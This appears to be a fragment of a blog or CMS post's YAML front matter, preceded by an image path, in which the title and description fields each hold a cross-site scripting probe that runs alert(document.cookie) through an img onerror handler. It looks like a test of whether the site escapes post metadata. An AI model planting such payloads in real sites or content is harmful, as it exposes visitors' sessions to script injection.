 ```yaml
---
title: '"><img src=x onerror=alert(document.cookie)>'
date: 2025-09-10T04:07:00.000+03:00
description: '"><img src=x onerror=alert(document.cookie)>'
thumbnail: /uploads/gy86rraxkaatfyr.jpg
tags:
  - "1"
---
```

1
